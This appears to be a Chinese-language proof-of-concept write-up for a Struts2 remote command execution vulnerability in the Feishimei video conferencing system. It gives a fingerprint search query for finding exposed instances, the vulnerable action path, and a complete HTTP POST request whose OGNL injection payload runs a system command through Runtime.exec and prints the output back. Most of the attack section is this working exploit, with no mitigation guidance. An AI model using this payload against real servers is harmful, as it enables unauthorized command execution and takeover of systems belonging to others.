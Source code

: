 # 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

```
飞视美 视频会议系统
```

## 网络测绘

```
app="飞视美-视频会议系统"
```

## 漏洞复现

登录页面

![image-20220525152447274](./images/202205251524392.png)

存在漏洞的路径为

```
/confinfoaction!showallConfinfos.action
```

发送请求包

```
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![image-20220525152728933](./images/202205251527012.png)